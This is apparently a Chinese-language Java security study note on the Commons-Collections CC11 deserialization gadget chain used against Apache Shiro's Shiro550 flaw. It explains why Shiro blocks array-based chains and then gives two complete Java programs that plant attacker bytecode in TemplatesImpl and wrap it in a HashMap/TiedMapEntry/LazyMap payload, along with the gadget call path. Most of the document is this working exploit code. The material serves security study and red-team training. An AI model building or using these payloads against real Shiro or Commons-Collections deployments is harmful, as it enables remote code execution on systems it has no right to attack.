




# 11 · 反序列化链 · CC11

> 查阅区 · **只查不读**，不进学习路径。原文拆自 `JAVA安全-全本`，正文一字未改，仅调标题层级与图片相对路径。
> 什么时候翻：红队 M3；Shiro550 专用，CC2 的执行段 + CC6 的入口段拼起来

主要是针对Shiro550的命令执行反序列化漏洞，实际上就是**CC2+CC6**的结合，然后受影响的版本是 Commons-Collections 3.1-3.2.1 这些使用更多的版本

## 链条成因

- 之所以要使用CC2作为后部分链，是因为其没有通过数组调用，若使用数组调用则会保错

  

  - Shiro不能加载数组是因为其重写了反序列化方法中的`resolveClass()`，以下是原生反序列化中的方法，使用`Class.forName()`获取Class

    

  - 而Shiro中自写了`ClassUtils`类

    

  - 其中使用`loadClass`加载

    

- 大体来说就是`loadClass()`没法加载数组类，而`Class.forName()`可以，更深入就涉及Tomcat的类加载机制了，先不做多余了解

## 链条构造

- 这里先拿出CC2的后部分

  ```java
  TemplatesImpl templates = new TemplatesImpl();
  Class templatesClass = templates.getClass();
  
  Field name = templatesClass.getDeclaredField("_name");
  name.setAccessible(true);
  name.set(templates, "name");
  
  Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
  bytecodes.setAccessible(true);
  byte[] code = Files.*readAllBytes*(Paths.*get*("D:\\Loader\\Calc.class"));
  byte[][] codes = {code};
  bytecodes.set(templates, codes);
  
  InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
  ```

  - 这里没使用`TransformingComparator`是因为该类是在CommonsCollections 4新加的

- 然后是CC6的前部分

  ```java
  HashMap<Object, Object> map = new HashMap<>();
  Map lazymap = LazyMap.decorate(map, chainedTransformer);
  TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "key");
  
  HashMap<Object, Object> hashMap = new HashMap<>();
  hashMap.put(tiedMapEntry, "value");
  Class<?> clazz = TiedMapEntry.class;
  Field field = clazz.getDeclaredField("map");
  field.setAccessible(true);
  field.set(tiedMapEntry, lazymap);
  
  serialize(hashMap);
  deserialize("ser6.bin");
  ```

- 对这两段代码做一下简单的修改连接即可形成完整代码

  ```java
  package CC11;
  
  import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
  import org.apache.commons.collections.keyvalue.TiedMapEntry;
  import org.apache.commons.collections.map.LazyMap;
  import org.apache.commons.collections.functors.InvokerTransformer;
  
  import java.io.*;
  import java.lang.reflect.Field;
  import java.nio.file.Files;
  import java.nio.file.Paths;
  import java.util.HashMap;
  import java.util.Map;
  
  public class CC11 {
      public static void main(String[] args) throws Exception {
  
          TemplatesImpl templates = new TemplatesImpl();
          Class templatesClass = templates.getClass();
  
          Field name = templatesClass.getDeclaredField("_name");
          name.setAccessible(true);
          name.set(templates, "name");
  
          Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
          bytecodes.setAccessible(true);
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
          byte[][] codes = {code};
          bytecodes.set(templates, codes);
  
  
          InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
  
          HashMap<Object, Object> map = new HashMap<>();
          Map lazymap = LazyMap.decorate(map, invokerTransformer);
  		//这里构成LazyMap.get(templates)
          TiedMapEntry tiedMapEntry = new TiedMapEntry(map, templates);
  
          HashMap<Object, Object> hashMap = new HashMap<>();
          hashMap.put(tiedMapEntry, "value");
  
          Class<?> clazz = TiedMapEntry.class;
          Field field = clazz.getDeclaredField("map");
          field.setAccessible(true);
          field.set(tiedMapEntry, lazymap);
  
          serialize(hashMap);
          deserialize("ser11.bin");
      }
  
      public static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser11.bin"));
          oos.writeObject(obj);
      }
  
      public static Object deserialize(String Filename) throws IOException, ClassNotFoundException {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
      }
  }
  ```

- 鉴于反复使用反射修改私有成员变量，所以将这个过程独立的单独的模块`setFieldValue()`

  ```java
  package CC11;
  
  import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
  import org.apache.commons.collections.keyvalue.TiedMapEntry;
  import org.apache.commons.collections.map.LazyMap;
  import org.apache.commons.collections.functors.InvokerTransformer;
  
  import java.io.*;
  import java.lang.reflect.Field;
  import java.nio.file.Files;
  import java.nio.file.Paths;
  import java.util.HashMap;
  import java.util.Map;
  
  public class CC11 {
      public static void main(String[] args) throws Exception {
  
          TemplatesImpl templates = new TemplatesImpl();
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
  
          setFieldValue(templates, "_name", "Jw1ng");
          setFieldValue(templates, "_bytecodes", new byte[][]{code});
  
          InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
  
          HashMap<Object, Object> map = new HashMap<>();
          Map lazymap = LazyMap.decorate(map, invokerTransformer);
          TiedMapEntry tiedMapEntry = new TiedMapEntry(map, templates);
  
          HashMap<Object, Object> hashMap = new HashMap<>();
          hashMap.put(tiedMapEntry, "value");
  
          setFieldValue(tiedMapEntry, "map", lazymap);
  
          serialize(hashMap);
          deserialize("ser11.bin");
      }
  
      public static void setFieldValue(Object obj, String fieldname, Object value) throws NoSuchFieldException, IllegalAccessException {
          Field field = obj.getClass().getDeclaredField(fieldname);
          field.setAccessible(true);
          field.set(obj, value);
      }
  
      public static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser11.bin"));
          oos.writeObject(obj);
      }
  
      public static Object deserialize(String Filename) throws IOException, ClassNotFoundException {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
      }
  }
  
  ```

- Gadget

  ```java
  HashMap.readObject()
  	TiedMapEntry.hashCode()
  	TiedMapEntry.getValue()
  		LazyMap.get()
  			InvokerTransformer.transform()
      			TemplatesImpl.newTransformer()
  ```
